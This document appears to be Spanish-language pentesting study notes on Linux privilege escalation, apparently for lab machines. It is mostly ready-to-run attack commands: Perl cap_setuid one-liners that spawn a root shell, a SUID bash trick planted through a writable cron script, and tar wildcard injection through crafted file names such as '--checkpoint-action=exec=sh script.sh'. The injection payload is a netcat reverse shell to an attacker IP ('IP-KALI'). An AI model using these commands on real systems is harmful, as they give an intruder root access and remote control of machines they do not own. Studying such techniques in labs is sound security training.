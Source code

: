 ********************************************************
Parte 5.- CAPABILITIES

las capabilities funcionan con binarios

Ver capabilities

getcap -r / 2>/dev/null

A.- /usr/bin/perl = cap_setuid+ep

Escogemos una ruta dónde podamos escribir (tmp) y hacemos:

echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nex ec "/bin/bash";' > script.pl


dentro de la ruta donde podemos ejecutar el comando de arriba.
./script.pl

A.1.- /usr/bin/perl5.36.0 cap_setuid=ep

ejecutamos

/usr/bin/perl -e 'use POSIX qw(setuid); setuid(0); exec "/bin/bash";'

B.- cap_net_bind_service

********************************************************
Parte 6.- Herramientas de tercero (Linpeas, Pspy64)

máquina vulnvault -> linpeas

You can write script: /usr/local/bin/echo.sh 

se agrega al final del archivo chmod u+s /bin/bash

ctrl + s, ctrl + x

bash -p 

y listo somos root !!!

pspy64

/usr/sbin/CRON -f 
/bin/sh -c cd /var/www/html && tar -zcf /var/backups/serve.tgz * 
 tar -zcf /var/backups/serve.tgz index.html 
 /bin/sh -c gzip

Se puede obtener el root mediante la colocación de archivos maliciosos aprovechando el manejo de comodines de la siguiente forma:

en /var/www/html ejecutamos:

touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh script.sh"

creamos un archivo script.sh

#!/bin/bash
nc -c /bin/bash IP-KALI 4444

